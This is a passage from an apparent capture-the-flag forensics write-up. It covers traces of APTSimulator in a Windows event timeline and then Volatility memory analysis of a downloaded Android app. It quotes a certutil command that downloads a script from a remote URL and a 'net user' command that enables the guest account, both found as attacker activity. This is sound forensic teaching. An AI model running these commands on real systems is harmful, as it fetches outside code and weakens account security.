 Q2.Seeing that most "malicous" related to APTSimulator, looking for events around this activity and filtering based on common native tools used for downloading, we found the following:
```
certutil.exe  -urlcache -split -f https://raw.githubusercontent.com/NextronSystems/APTSimulator/master/download/cactus.js C:\Users\Public\en-US.js
```

Q3. By going back in timeline to see source of all the malicous events, the following command was found:
```
C:\Windows\system32\cmd.exe /c ""C:\Users\IEUser\Desktop\APTSimulator\APTSimulator.bat
```
CTF{APTSimulator.bat}

Q4. Common command used for user management at windows is ```net user```, search for this actiovity within the timeline of the malicous commands, the following command line was found:
```
net  user guest /active:yes
```

### spy-agency

Volatility imagescan shows that the relevant profile is `Win7SP1x64`. After a brief `pstree` and `filescan`, we see that there's not really that much happening process-wise. But Chrome has been used to download a file from WeTransfer:

``` 
0x000000003fa82210     16      0 RW---- \Device\HarddiskVolume2\Users\volf\Downloads\app-release.apk.zip
```

We weren't able to dump this exact file, but there were some copies of it located on the desktop that could be dumped using `dumpfiles -Q XXX` with XXX being the physical address from the filescan output. The Chrome history also showed some Google searches for Bluestacks, an Android emulator, but none of its binaries were present. The belief is that someone downloaded this APK, then ran it locally in Bluestacks to get the secret location - which is the goal of this challenge.

The zip file does not contain an APK at all, but a directory, which contains the contents of an APK. This breaks normal decompilers like JADX, but luckily it's easy to repack it as a proper APK file.

After some brief reversing of the app, it looks like it is just a simple "Hello, World!" Android application, that only shows a single view with a "Hello World" message.

```java
package com.example.hidden_place;

import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {
    /* access modifiers changed from: protected */
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView((int) R.layout.activity_main);
    }
}
```
